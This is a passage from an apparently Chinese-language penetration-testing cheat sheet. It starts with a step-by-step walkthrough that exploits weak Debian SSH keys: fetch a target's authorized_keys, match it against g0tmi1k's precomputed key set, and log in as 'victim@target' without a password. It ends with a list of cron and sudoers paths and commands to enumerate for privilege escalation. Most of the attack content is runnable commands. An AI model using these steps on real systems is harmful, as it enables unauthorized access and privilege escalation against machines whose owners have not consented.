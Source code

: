 **步骤**

1. 获取authorized_keys文件。该文件的示例如下所示：

```
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (剪接) ...
```

2. 由于这是一个ssh-dss密钥，我们需要将其添加到我们的本地`/etc/ssh/ssh_config`和`/etc/ssh/sshd_config`文件中：

```
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshd_config
/etc/init.d/ssh restart
```

3. 获取[g0tmi1k的debian-ssh仓库](https://github.com/g0tmi1k/debian-ssh)并解压缩密钥：

```
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

4. 从上面显示的密钥文件中获取以`"AAAA..."`部分开头的最初20或30个字节，并用它来搜索解压缩后的密钥，如下所示：

```
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```

5. 如果成功，这将返回一个文件（68b329da9893e34099c7d8ad5cb9c940-17934.pub）公共文件。要使用私钥文件进行连接，请删除'.pub'扩展名并执行以下操作：

```
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

这样应该可以在不需要密码的情况下连接。如果卡住了，`-vvv`详细级别应该能提供足够的细节来说明原因。

## 计划任务

### 定时任务

检查您是否有对这些文件的写入权限。   
检查文件内部，找到具有写入权限的其他路径。   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
```